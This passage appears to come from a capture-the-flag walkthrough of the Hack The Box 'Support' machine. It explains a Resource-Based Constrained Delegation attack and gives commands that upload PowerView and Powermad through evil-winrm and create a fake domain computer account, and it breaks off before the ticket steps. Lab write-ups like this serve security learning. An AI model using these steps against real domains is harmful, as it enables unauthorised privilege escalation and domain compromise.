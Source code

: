 ### RBCD Attack
In a nutshell, the Resource-Based Constrained Delegation (RBCD) attack works like this:
1. **Step 1** – Add Fake Computer to the Domain: The attacker controls a computer (let’s call it $FAKE-COMP01) and adds it to the domain.
2. **Step 2** – Set Up the Fake Computer to Act on Behalf of the Domain Controller (DC).
3. **Step 3** – Generate Kerberos Tickets: The attacker requests Kerberos tickets for $FAKE-COMP01.
4. **Step 4** – Impersonate a Privileged User: The attacker uses Pass-the-Ticket (PtT) to authenticate as a privileged user, like the Administrator.

We need to verify that msds-allowedtoactonbehalfofotheridentity attribute is empty. We need to upload PowerView.ps1 to the victim using evil-winrm.

Find it:

```bash
find / 2>/dev/null | grep PowerView.ps1
```

Copy it to directory in where you open evil-winrm session:

```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ~/HTB/Support/PowerView.ps1
```

Upload it to the victim using our evil-winrm session:

```bash
upload PowerView.ps1
```

Upload Powermad.ps1 as well from [here](https://github.com/Kevin-Robertson/Powermad) and Upload Rabeus.exe:


Now in the victim's machine:

```powershell
Import-Module .\Powermad.ps1
```

![alt text](image-2.png)

Now we see that we can create new computers since our machineaccountquota is 10.

### Creating Fake Machine
```powershell
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

**creds**:
```plaintext
FAKE-COMP01:Password123
```
